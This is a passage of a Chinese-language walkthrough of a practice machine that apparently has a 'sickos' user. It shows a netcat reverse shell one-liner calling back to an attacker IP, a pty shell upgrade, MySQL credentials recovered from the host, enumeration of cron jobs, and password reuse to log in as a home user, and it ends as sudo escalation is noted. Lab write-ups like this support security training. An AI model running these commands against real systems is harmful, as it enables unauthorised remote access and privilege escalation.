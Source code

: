 image-20250121181240800  
  
保存后即可连接成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIO8iaF0YFDbEicKyOiaibvHH6VzN7LHh9X1BpZQtKSy5OZaAQkTF2JyVm6Dw/640?wx_fmt=png&from=appmsg "")  
  
image-20250121181323510  
  
反弹shell  
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.209.130 6666 >/tmp/f

```  
  
创建交互式终端  
```
python -c 'import pty; pty.spawn("/bin/bash")'

```  
  
得到mysql数据库账号密码  
```
root / john@123

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOGr36SjtvG7ZiavvqAeicua7WxsvSMpLKJWr6abOxv6kNjOap7ZHyWxUA/640?wx_fmt=png&from=appmsg "")  
  
image-20250121181814708  
  
登录进去，用户表只有一个用户admin  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIObQS16qMcRGnMkibYnXBiaGybCIv3jvhPuLwYykIkeKq3qcm9bEEhXibAQ/640?wx_fmt=png&from=appmsg "")  
  
image-20250121182251138  
  
继续信息收集，回家，历史命令，SUID文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOiclXLzibhgPc0NfXAkcMZ7tzV4rYLKDWBAiahAwbZChJ5R80FMNbfNAiag/640?wx_fmt=png&from=appmsg "")  
  
image-20250121182426084  
  
计划任务  
```
ls -al /etc/cron*

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOuPdLBu4HNtNiaDwWSZNrf7ibuwKcgmt6lCNMGDcIibUJLsMasFicvfTBmA/640?wx_fmt=png&from=appmsg "")  
  
image-20250121182759838  
  
这些工具基本上都没啥用，这里需要用上之前的数据库密码，来登录这个home下面的用户sickos  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOTHC6SFQSNCbpWvefogTvuIHJYRnOBvYRM9d8DXGHYvVAMKbGVVohqg/640?wx_fmt=png&from=appmsg "")  
  
image-20250121183201662  
  
有了密码那么就直接sudo，可以看到是所有的东西都可以执行sudo，那么就简单了  
  